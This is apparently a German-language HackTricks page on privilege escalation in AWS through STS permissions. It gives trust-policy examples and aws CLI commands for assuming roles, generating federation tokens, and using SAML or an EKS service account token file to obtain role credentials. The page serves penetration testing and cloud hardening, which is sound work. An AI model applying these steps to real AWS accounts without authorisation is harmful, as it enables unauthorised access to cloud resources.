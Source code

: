 # AWS - STS Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## STS

### `sts:AssumeRole`

Jede Rolle wird mit einer **Rollenvertrauensrichtlinie** erstellt, diese Richtlinie gibt an, **wer die erstellte Rolle übernehmen kann**. Wenn eine Rolle aus dem **gleichen Konto** angibt, dass ein Konto sie übernehmen kann, bedeutet das, dass das Konto Zugriff auf die Rolle (und potenziell **privesc**) haben wird.

Zum Beispiel zeigt die folgende Rollenvertrauensrichtlinie an, dass jeder sie übernehmen kann, daher wird **jeder Benutzer in der Lage sein, privesc** zu den mit dieser Rolle verbundenen Berechtigungen zu erhalten.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Sie können eine Rolle nachahmen, indem Sie Folgendes ausführen:
```bash
aws sts assume-role --role-arn $ROLE_ARN --role-session-name sessionname
```
**Potenzielle Auswirkungen:** Privilegieneskalation zur Rolle.

{% hint style="danger" %}
Beachten Sie, dass in diesem Fall die Berechtigung `sts:AssumeRole` **in der Rolle angegeben werden muss, die missbraucht werden soll** und nicht in einer Richtlinie, die dem Angreifer gehört.\
Mit einer Ausnahme, um **eine Rolle aus einem anderen Konto zu übernehmen**, muss das Angreiferkonto **auch** die **`sts:AssumeRole`** über die Rolle haben.
{% endhint %}

### **`sts:GetFederationToken`**

Mit dieser Berechtigung ist es möglich, Anmeldeinformationen zu generieren, um jeden Benutzer zu impersonifizieren:
```bash
aws sts get-federation-token --name <username>
```
So kann diese Berechtigung sicher erteilt werden, ohne den Zugriff auf die Identität anderer Benutzer zu gewähren:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "VisualEditor0",
"Effect": "Allow",
"Action": "sts:GetFederationToken",
"Resource": "arn:aws:sts::947247140022:federated-user/${aws:username}"
}
]
}
```
### `sts:AssumeRoleWithSAML`

Eine Vertrauensrichtlinie mit dieser Rolle gewährt **Benutzern, die über SAML authentifiziert sind, Zugriff auf die Rolle zu impersonieren.**

Ein Beispiel für eine Vertrauensrichtlinie mit dieser Berechtigung ist:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OneLogin",
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::290594632123:saml-provider/OneLogin"
},
"Action": "sts:AssumeRoleWithSAML",
"Condition": {
"StringEquals": {
"SAML:aud": "https://signin.aws.amazon.com/saml"
}
}
}
]
}
```
Um Anmeldeinformationen zu generieren, um die Rolle zu impersonieren, könnten Sie etwas wie Folgendes verwenden:
```bash
aws sts  assume-role-with-saml --role-arn <value> --principal-arn <value>
```
Aber **Anbieter** könnten ihre **eigenen Werkzeuge** haben, um dies zu erleichtern, wie [onelogin-aws-assume-role](https://github.com/onelogin/onelogin-python-aws-assume-role):

{% code overflow="wrap" %}
```bash
onelogin-aws-assume-role --onelogin-subdomain mettle --onelogin-app-id 283740 --aws-region eu-west-1 -z 3600
```
{% endcode %}

**Potenzielle Auswirkungen:** Privesc auf die Rolle.

### `sts:AssumeRoleWithWebIdentity`

Diese Berechtigung gewährt die Erlaubnis, ein Set von temporären Sicherheitsanmeldeinformationen für **Benutzer, die in einer mobilen, Webanwendung, EKS...** mit einem Web-Identitätsanbieter authentifiziert wurden, zu erhalten. [Hier mehr erfahren.](https://docs.aws.amazon.com/STS/latest/APIReference/API\_AssumeRoleWithWebIdentity.html)

Zum Beispiel, wenn ein **EKS-Dienstkonto** in der Lage sein sollte, **eine IAM-Rolle zu impersonifizieren**, hat es ein Token in **`/var/run/secrets/eks.amazonaws.com/serviceaccount/token`** und kann **die Rolle annehmen und Anmeldeinformationen erhalten**, indem es etwas wie folgt tut:

{% code overflow="wrap" %}
```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::123456789098:role/<role_name> --role-session-name something --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token
# The role name can be found in the metadata of the configuration of the pod
```
{% endcode %}

### Föderationsmissbrauch

{% content-ref url="../aws-basic-information/aws-federation-abuse.md" %}
[aws-federation-abuse.md](../aws-basic-information/aws-federation-abuse.md)
{% endcontent-ref %}

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
